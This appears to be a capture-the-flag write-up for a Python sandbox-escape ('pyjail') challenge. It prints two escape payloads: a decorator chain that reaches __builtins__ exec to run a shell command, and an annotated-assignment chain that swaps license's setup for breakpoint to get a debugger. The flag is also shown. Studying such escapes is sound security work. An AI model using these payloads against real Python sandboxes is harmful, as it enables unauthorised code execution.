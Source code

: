 ```yaml
---
ai_date: 2025-04-27 05:21:59
ai_summary: Exploited function decorators and AnnAssign to bypass restrictions
ai_tags:
  - decorator
  - annassign
  - reflection
created: 2024-06-29T00:39
points: 470
solves: 52
tags:
  - AST
updated: 2025-07-14T09:46
---
```


We are not allowed to use the following expressions in python: **assign**, **call**, **import**, **import from**, **binary operation (+-/ etc)**.

First thing that came to mind were function decorators.

```python
@safe_import.__globals__['__builtins__'].exec
@lambda x: 'safe_import.__globals__["__builtins__"].__import__("os").system("ls")'
def x(): 0
```

This is a working payload but it's 3 lines.

So I tried other things such as replacing `safe_import` with my own function but they all failed.

Then my teammates solved it with **AnnAssign**.

```python
builtins: "" = safe_import.__globals__["__builtins__"] license: "" = builtins.license license._Printer__setup: "" = builtins.breakpoint f"{license}"

# uiuctf{maybe_we_shouldnt_sandbox_python_2691d6c1}
```

Never knew python had such a function.